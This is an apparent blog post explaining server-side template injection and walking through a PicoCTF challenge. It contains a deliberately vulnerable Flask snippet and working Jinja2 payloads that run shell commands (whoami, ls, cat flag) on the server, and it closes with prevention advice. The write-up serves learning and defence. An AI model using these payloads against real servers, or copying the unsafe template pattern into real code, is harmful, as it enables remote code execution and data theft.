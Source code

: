 ```yaml
---
title: "Server-Side Template Injection (SSTI) — Explained Simply"
date: 2025-04-17T12:20:30-05:30
categories:
  - blog
tags:
  - SSTI
  - PicoCTF
  - Learning
---
```

>Quick and hands-on walkthrough of an SSTI (Server-Side Template Injection) vulnerability using a PicoCTF challenge. No boring theory dumps — just straight to the point with payloads, screenshots, and flag hunting. If you're into web exploitation or just starting out with CTFs, this one's for you.

---

>### What’s SSTI?
Server-Side Template Injection (SSTI) is a vulnerability that pops up when user input gets directly embedded into a server-side template engine without proper checks. If this happens, an attacker can inject their own code and get it executed on the server — leading to serious stuff like remote code execution (RCE), data leaks, or even full access to the system.

---

>### How Does SSTI Happen?
Web frameworks often use template engines to generate dynamic HTML pages. These templates can include variables like {% raw %}
{{ user }}
{% endraw %}, which the engine replaces with actual values. Common engines are:
- **Jinja2 (Python/Flask)**
- **Twig (PHP)**
- **Freemarker (Java)**
- **Pug (Node.js)**

>Now, if a developer takes raw user input and sticks it straight into a template without escaping or validating it, it’s game over.
Example with Flask + Jinja2:

```
from flask import Flask, render_template_string, request

app = Flask(__name__)

@app.route("/")
def index():
    user_input = request.args.get("name", "Guest")
    return render_template_string("Hello {{ user_input }}")

```

>If someone sends {% raw %}`{{7*7}}` {% endraw %} as input, the output will be:
`Hello 49`
So yeah, the server actually _runs_ that code instead of just showing it as plain text. That’s the whole issue.

---

>### Why Does SSTI Even Exist?
It mostly boils down to:
1. Template engines are designed to _evaluate_ stuff like 
{% raw %}`{{ something }}`{% endraw %}.
2. If user input ends up there unchecked, it gets interpreted.
3. Developers often don’t realize how powerful (and risky) these engines are.
If attackers find a way in, they can run serious payloads. Like this one in Jinja2:

```
{% raw %} {{ config.__class__.__init__.__globals__['os'].popen('whoami').read() }} {% endraw %}
```

>This runs the `whoami` command on the server. Yep, it’s that dangerous.

---

>### SSTI in Action (PicoCTF Challenge)
Let’s take a quick hands-on look at SSTI using a beginner-friendly challenge from PicoCTF — because honestly, too much theory sucks. Here's the link to the challenge:

>[picoCTF - picoGym Challenges](https://play.picoctf.org/practice/challenge/492)

>So the setup is simple — there’s a website that just displays whatever you type in a textbox. Like this:
![Text Box UI](/assets/images/SSTI-vulnerability/TextboxUI.png)

>If I type `hello`, it shows… well, `hello`. Nothing fancy.
![Hello Input](/assets/images/SSTI-vulnerability/Hello_Input.png)
![Hello Output](/assets/images/SSTI-vulnerability/Hello_Output.png)

>Now, let’s toss in a classic SSTI payload and see what happens. Try this:
{% raw %} `{{7*7}}` {% endraw %}

>If the site is vulnerable, the template engine will evaluate`7*7` and show `49` instead of just printing the curly braces.

>![SSTI Payload Input](/assets/images/SSTI-vulnerability/SSTI_Payload_Input.png)
![Output is 49](/assets/images/SSTI-vulnerability/Output_is_49.png)

>That confirms it — SSTI confirmed

>### Getting the Flag
Now we know it’s vulnerable, let’s try to poke around and get that flag.
We’ll use this payload to list files in the server directory:

{% raw %}
```
{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
```
{% endraw %}

Output:
```
__pycache__ app.py flag requirements.txt
```
There it is! We found the `flag` file.

Let’s read it:

{% raw %}
```
{{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}
```
{% endraw %}

And just like that, the flag is ours.

---

>### Note:
Not all SSTI challenges will be this straightforward. Sometimes, input sanitization or filters might block basic payloads, so you’ll need to get creative with your bypass techniques.

---

>### Some Useful Payload Lists:
- [SSTI Payload Collection – PayloadBox](https://github.com/payloadbox/ssti-payloads/blob/master/README.md)
- [SSTImap – Fuzz SSTI Payloads](https://github.com/vladko312/SSTImap.git)

---
>### How to Prevent SSTI
Here’s what you should do to stay safe:
1. **Don’t use `render_template_string()` with user input**  
    – Stick to `render_template()` with proper, pre-written templates.   
2. **Escape and sanitize input**  
    – Use filters like {% raw %}`{{ user_input | e }}` {% endraw %}to prevent it from being interpreted.  
3. **Limit what the template engine can do**  
    – In Jinja2, go for sandboxing to block dangerous functions.
4. **Use allowlists**  
    – Only allow expected values. Don’t blindly trust user input.
5. **Add a WAF (Web Application Firewall)**  
    – It can help block suspicious inputs and common attack patterns.


---

>### Wrapping Up
SSTI isn’t just a cool bug — it can fully compromise a system. Knowing how these template engines work and locking down any input that ends up in them is key. Always validate, escape, and play it safe when rendering templates. One careless mistake can lead to a full-blown server takeover.